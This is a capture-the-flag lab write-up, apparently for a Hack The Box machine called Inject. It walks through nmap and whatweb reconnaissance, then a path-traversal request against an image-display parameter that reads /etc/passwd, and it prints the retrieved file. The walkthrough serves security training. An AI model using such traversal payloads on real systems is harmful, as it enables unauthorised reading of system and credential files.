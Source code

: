 # Inject

First, run a standard scan of the machine with nmap to discover open ports and store the output in a file named [```allPorts```](./nmap/allPorts) !
```
sudo nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- 10.10.11.204 -oG allPorts
```

To get the details and version aand store the output in a file named [```targeted```](./nmap/targetedPorts)
```
nmap -sC -sV -p22,8080 10.10.11.204 -oN targeted
```
> It's allways important to save those information about the machine !

You can eventully use other tools like ```whatweb``` to scan the web
```
whatweb http://10.10.11.204:8080
```


After inspecting the web page at `http://10.10.11.204:8080`, you'll notice there's an `upload` section in the right corner! Let's intercept the request with Burp Suite!
```
//TODO
```

Trying to upload a file with .sh or .php extensions appears to be impossible. But when an image named `test.jpg` (for example) is uploaded, we get this URL in the response
```
http://10.10.11.204:8080/show_image?img=test.jpg
```

The `show_image` variable seems to be exploitable ! Let's attempt some trials with GET requests !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../etc/passwd" > passwd
```

Indeed, we have the ```/etc/passwd``` file from the machine! So we have an LFI vulnerability !!!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
```